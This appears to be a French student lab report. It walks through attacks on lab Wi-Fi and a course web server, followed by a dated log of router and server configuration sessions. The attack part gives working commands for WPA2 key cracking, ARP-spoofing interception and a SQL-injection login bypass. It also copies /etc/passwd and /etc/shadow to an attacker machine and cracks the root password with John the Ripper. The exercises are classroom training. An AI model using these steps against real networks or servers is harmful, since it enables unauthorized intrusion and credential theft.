* Lancer une écoute de tous les paquets Wifi qui circulent afin de déterminer les paramètres du réseau Wifi à attaquer :
```
airodump-ng wlan0mon
```
Récupérer les informations suivantes :  
&ensp; &rarr; BSSID	- 44:AD:D9:5F:87:02  
&ensp; &rarr; Canal	- 3  
&ensp; &rarr; SSID	- kracotte03

* Cibler la recherche vers le point d'accès pour capturer les VI générés par le PA :
```
airodump-ng -c 3 --bssid 44:AD:D9:5F:87:02 -w psk wlan0mon
```
Il est nécessaire de capturer les VI issus d'un handshake (émis lors de la connexion d'un utilisateur au PA).  
Pour cela, des cartes Raspberry Pi présentes dans la salle de TP se connectent aux différents réseaux Wifi WPA.  
Ici, les paquets récupérés sont stockés dans des fichiers `psk*`.

* Créer un dictionnaire de toutes les combinaisons décimales possibles sur 8 bits :
```
crunch 8 8 0123456789 -o dictionnaire
```

* Cassage de la PSK :
```
aircrack-ng -w dictionnaire -b 44:AD:D9:5F:87:02 psk*.cap
```

```
KEY FOUND! [ 90122222 ]
Master Key     : 2D 1E 30 8D AA 30 91 7A 5D AB B5 80 02 FB 16 3F 
                 9B DB 91 AC A5 76 4A 33 31 8B D3 7B AC 5A DB A7 

Transient Key  : 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
                 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
                 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
                 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 

EAPOL HMAC     : E6 17 FE C7 E3 14 F0 B9 68 99 97 86 07 41 DA E8
```

## Attaque du type "homme du milieu" par usurpation ARP

Sur la machine qui effectue l'attaque :

* Activer le routage IPv4 :
```
sysctl -w net.ipv4.ip_forward=1
```

* Lancer l'empoisonnement du cache ARP de la victime :
```
arpspoof -i {Nom carte réseau} -t {Adresse IP victime} {Adresse IP passerelle}
```

* Vérifier la contamination du cache ARP sur la machine de la victime :
```
ip n
```

* Utiliser l'analyseur de réseau Wireshark (sniffer) pour visualiser le contenu des formulaires HTTP

## Intrusion sur un serveur Web

### Injection SQL :

* Se rendre sur un site Web avec la chaîne ci-dessous comme identifiant et mot de passe : 
```
' OR 1 = 1 --
```

Soit la requête ci-dessous :
```
SELECT * FROM USERS WHERE ID='$id' AND PWD='$pwd'
```

Ainsi, l'injection SQL permet de commenter la partie de la requête pour le mot de passe et d'effectuer un OU avec une condition toujours vraie afin de récupérer toutes les informations de la base de données :
```
SELECT * FROM USERS WHERE ID='' OR 1 = 1 --' AND PWD='' OR 1 = 1 --'
```

### Accès à la base de données

* Installation des paquets nécessaires :
```
apt-get install dirb
```

* Analyse des fichiers du serveur Web :
```
dirb http://honey.plil.info
```

On remarque la présence du répertoire `phpmyadmin` sur le serveur.

* Ouvrir l'URL `http://honey.plil.info/phpmyadmin` et essayer de se connecter avec les identifiants récupérés

### Connexion au serveur

* Installation des paquets nécessaires :
```
apt-get install nmap
```

* Vérifier que le serveur est accessible à distance (analyse des ports) :
```
nmap -6 https://{Adresse du serveur}
```

* Se connecter au serveur via `ssh` avec les identifiants récupérés dans la base de données :
```
ssh {Utilisateur}@{Adresse du serveur}
```

* Récupération des informations sur les utilisateurs :
```
scp /etc/passwd {Utilisateur pirate}@{Adresse machine pirate}:~/passwd
scp /etc/shadow {Utilisateur pirate}@{Adresse machine pirate}:~/shadow
```

### Cassage du mot de passe root

* Utilisation des commandes de l'utilitaire de John the Ripper.
```
unshadow ./passwd ./shadow | grep root > pass
```

* Création d'un dictionnaire (on sait que le mot de passe est la répétition d'un mot de 4 lettres deux fois) :
```
crunch 4 4 abcdefghijklmnopqrstuvwxyz > dico
sed -i 's/\(.*\)/\1\1/' dico
```

* Cassage du mot de passe :
```
/usr/sbin/john -w:dico pass
```

* Visualisation du mot de passe en clair après quelques minutes :
```
/usr/sbin/john --show pass
```

# Résumé des séances

## Jeudi 16/09/2021 10h-12h

**Tâches effectuées :**
* Plan d'adressage
* Architecture réseau
* Câblage des fibres

## Jeudi 23/09/2021 08h-12h

### Tâches effectuées :
* Câblage des câbles coaxiaux
* Configuration de base des trois routeurs
* Configuration du VLAN 530 sur les deux routeurs principaux
  * La communication avec le routeur en amont (`192.168.222.33`) est fonctionnelle
  * Le routeur répond correctement à la sollicitation ICMP par la commande PING

## Vendredi 24/09/2021 08h-12h

### Tâches effectuées :
* Configuration du VLAN 110 sur les deux routeurs principaux
* Configuration de OSPF
* Configuration de VRRP pour déterminer le routeur actif sur le réseau
  * VRRP ne permet pas de choisir une adresse IP en dehors du sous-réseau déclaré
  * Le sous-réseau `10.60.100.0/24` est utilisé dans le VLAN 110 pour avoir davantage d'addresses et pour pouvoir utiliser VRRP
  * Ce sous-réseau n'est pas redistribué via OSPF

## Jeudi 26/09/2021 08h-12h

### Tâches effectuées :
* Configuration des routeurs Cisco 9200 et 6509-E
  * Tests de connectivité avec Internet fonctionnels
    * L'implémentation du protocole NAT sur le Cisco 6509-E a été effectuée
    * Il a fallu ajouter la dernière adresse du réseau `193.48.57.160/28` sur l'interface loopback 0 afin d'activer la redistribution par OSPF
    * Les paquets ICMP et UDP sont correctement échangés mais pas ceux TCP
    * Le commutateur Cisco 9200 n'implémente pas le protocole NAT
    * La solution trouvée est de passer par des routes statiques
    * Sauf si une solution est trouvée, le routeur Cisco 6509-E implémentera également des routes statiques plutôt que d'utiliser le protocole NAT
* Configuration IPv6
* La redondance est fonctionnelle : Le commutateur Cisco 9200 prend le relais sur le routeur Cisco 6509-E si celui-ci ne fonctionne plus
* Configuration des interfaces vers le routeur Cisco ISR 4331 et les points d'accès
* Le routeur Cisco ISR 4331 sera connecté au commutateur SR52-pinfo-1 sur l'interface G0/39 (l'interface a été configuré pour commuter le VLAN 532)

## Vendredi 12/11/2021 8h-12h

### Tâches effectuées :
* Configuration des routeurs Cisco 9200 et 6509-E
  * Installation fonctionnelle, il faut juste trouver une solution pour les paquets UDP filtrés avec NAT (cf. ACL)
  * Changement des adresses IP pour le VLAN 530 (et 532)
* Début configuration ISR 4331
* Création VM
  * Partitions virtuelles
  * Apache + SSL
  * DNS
  * RAID5

## Jeudi 18/11/2021 08h-10h

### Tâches effectuées :
* Configuration de la VM
  * Configuration DNS avec Gandi fonctionnelle
  * Création du certificat SSL
  * Activation du site HTTPS

## Vendredi 19/11/2021 08h-12h

### Tâches effectuées :
* Tests d'intrusion
  * Cassage de clef WEP
  * Cassage de clef WPA2
* Configuration de `freeradius` et couplage au Wifi WPA-EAP
* Configuration DNSSEC
* Cassage de clef WEP et WPA2

## Lundi 29/11/2021 08h-12h

### Tâches effectuées :


## Vendredi 03/12/2021 08h-10h

### Tâches effectuées :
* Examen
